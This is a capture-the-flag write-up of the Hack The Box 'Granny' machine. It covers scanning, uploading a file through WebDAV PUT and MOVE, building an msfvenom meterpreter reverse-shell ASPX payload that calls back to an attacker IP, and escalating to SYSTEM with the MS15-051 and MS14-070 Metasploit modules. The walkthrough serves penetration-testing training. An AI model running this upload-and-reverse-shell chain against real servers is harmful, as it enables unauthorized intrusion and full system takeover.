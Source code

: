 ```yaml
---
cover: ../../../.gitbook/assets/Granny.png
coverY: 252.91733333333332
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Granny

```bash
root@kali> echo '10.10.10.15 granny.htb' | sudo tee -a /etc/hosts
root@kali> nmap -sV -sC -oA granny granny.htb
```

If you did not install gobuster, install it in the `/otp` folder.

```bash
root@kali> cd /opt
root@kali> git clone https://github.com/OJ/gobuster.git
root@kali> cd gobuster
root@kali> make
```

Then run gobuster **in background** to enumerate web hierarchy.

```bash
root@kali> cd /otp/gobuster
root@kali> ./gobuster dir -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -u http://granny.htb -t 20
```

Then run nikto **in background** to enumerate web options.

```bash
root@kali> nikto -url http://granny.htb
```

When the NMap scan is completed, you can see there is a WebDAV server 6.0 running on the the target.

```bash
root@kali> davtest -url http://granny.htb
```

<figure><img src="../../../.gitbook/assets/2023-09-11_10h37_22.png" alt=""><figcaption></figcaption></figure>

PUT files allowed : `.pl` `.jsp` `.cfm` `.html` `.txt` `.jhtml` `.php`

To grab all requests made with the **davtest** tool, you can create a proxy with **Burp Suite**. To do this, open Burp and go to **Proxy > Options > Proxy Listeners > Add**.

Specify the local port then enter the target IP address and its remote port. Then click on **OK**.

<figure><img src="../../../.gitbook/assets/2023-09-11_10h43_07.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/2023-09-11_10h43_45 (1).png" alt=""><figcaption></figcaption></figure>

Once you created the proxy, run again the davtest tool and go to **Burp Suite > Proxy > HTTP History**. You will see all requests made with davtest.

<figure><img src="../../../.gitbook/assets/2023-09-11_10h47_53.png" alt=""><figcaption></figcaption></figure>

Thus you can try to upload an HTML file on the server.

<figure><img src="../../../.gitbook/assets/2023-09-11_10h41_24.png" alt=""><figcaption></figcaption></figure>

You can now create a payload with **msfvenom**.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=1337 -f aspx
```

Copy/paste the payload instead of the "this is a test" and send the request. The code should be deployed.

<figure><img src="../../../.gitbook/assets/2023-09-11_10h50_54.png" alt=""><figcaption></figcaption></figure>

Great, but HTML is not executed by the WebDAV server. In Burp, if you try to change the filename "ippsec.html" by "ippsec.aspx", it returns a FORBIDDEN response.

In the NMap output, you can see there is a MOVE method allowed on the target.

<figure><img src="../../../.gitbook/assets/2023-09-11_10h54_11.png" alt=""><figcaption></figcaption></figure>

Google "HTTP Move" and you will see you must an additionnal Header in your request to move on ressource to another location.

<figure><img src="../../../.gitbook/assets/2023-09-11_10h56_10.png" alt=""><figcaption></figcaption></figure>

Great, you changed the resource name! Now you can open a multi/handler in msfconsole.

```bash
root@kali> msfconsole
msf6> use exploit/multi/handler
msf6> set lhost 10.10.14.4
msf6> set lport 1337
msf6> set payload windows/meterpreter/reverse_tcp
msf6> run
```

Then execute the following command

```bash
root@kali> curl http://granny.htb/ippsec.aspx
```

You gain the meterpreter! Now you can set it in background and search for the post-exploitation module **suggester**.

```
msf6> use post/multi/recon/local_exploit_suggester
msf6> set session 1
msf6> run
```

Two of the listed modules work.

* exploit/windows/local/ms15\_051\_client\_copy\_image
* exploit/windows/local/ms14\_070\_tcpip\_ioctl

Set the session and run it, you will gain the **NT AUTHORITY\SYSTEM** user.
